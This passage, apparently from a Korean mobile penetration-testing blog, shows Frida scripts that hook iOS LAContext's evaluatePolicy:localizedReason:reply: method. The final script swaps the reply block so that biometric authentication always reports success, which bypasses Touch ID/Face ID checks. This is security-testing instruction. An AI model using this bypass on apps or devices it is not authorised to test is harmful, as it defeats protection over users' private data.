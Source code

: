 ```javascript
		onEnter: function(args){
			console.log(colors.red, "\n [*] onEnter");
			console.log(colors.blue, "\t[+] args0 : " + args[0]);
			console.log(colors.blue, "\t[+] args1 : " + args[1]);
			console.log(colors.blue, "\t[+] args2 : " + args[2]);
			console.log(colors.blue, "\t[+] args3 : " + args[3]);
		},
		onLeave:function(retval){                
			console.log(colors.red, "[*] onleave");
			console.log(colors.yellow, "\t[+] Class Name : " + className)
			console.log(colors.yellow, "\t[+] Method Name : " + methodName)
			console.log(colors.yellow, "\t[+] Type of return value : " + TouchID.returnType) 
			console.log(colors.yellow, "\t[+] Return Value : " + retval, colors.reset)
		}
	})
}
```

`- evaluatePolicy:localizedReason:reply:`함수가 실행 될 때와 실행 완료 되었을 때 인자 값을 확인하여 어느 인자 값이 `reply`에 해당하는지 확인한다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/779c4dea-7a22-405f-916f-3d6d25c3e924">
</p>

해당 함수는 `escaping closer`로 함수가 실행이 종료된 후 실행되는 `reply`가 Return 되는데 이는 **arg3**의 값인 것을 알 수 있다.

따라서, 로컬 인증 시도 후 취소 버튼을 클릭해 함수 종료를 유도하여 **arg3**를 재호출하면 Bool 값을 True로 변경하여 실행하게 되므로 로컬 인증 우회가 가능하다.

_(**Object-C implemetation**의 경우도 타고 들어가보면 결국 `- evaluatePolicy:localizedReason:reply:` 함수를 사용하기에 같은 방법이라 볼 수 있다.)_

### Frida Code

```javascript
let colors = {
    "reset" : "\x1b[0m",
    "red" : "\x1b[31m",
    "green" : "\x1b[32m",
    "yellow" : "\x1b[33m",
    "blue" : "\x1b[34m"
}

if (ObjC.available) {
	var className = "LAContext"; 
	var methodName = "- evaluatePolicy:localizedReason:reply:";
	var TouchID = eval('ObjC.classes.' + className + '["' + methodName + '"]');

    Interceptor.attach(TouchID.implementation, {
		onEnter: function(args){
			console.log(colors.red, "\n [*] onEnter");
			console.log(colors.blue, "\t[+] args[0] : " + args[0]);
			console.log(colors.blue, "\t[+] args[1] : " + args[1]);
			console.log(colors.blue, "\t[+] args[2] : " + args[2]);
			console.log(colors.blue, "\t[+] args[3] : " + args[3]);

			var reply = new ObjC.Block(args[4]);
			const appCallback = reply.implementation;
            reply.implementation = function (success, error)  {
                console.log(colors.yellow, "[!] success : " + success + colors.red,"\n [!] error : " + error);
                const result = appCallback(true, null);
                return result;
            };
		},
```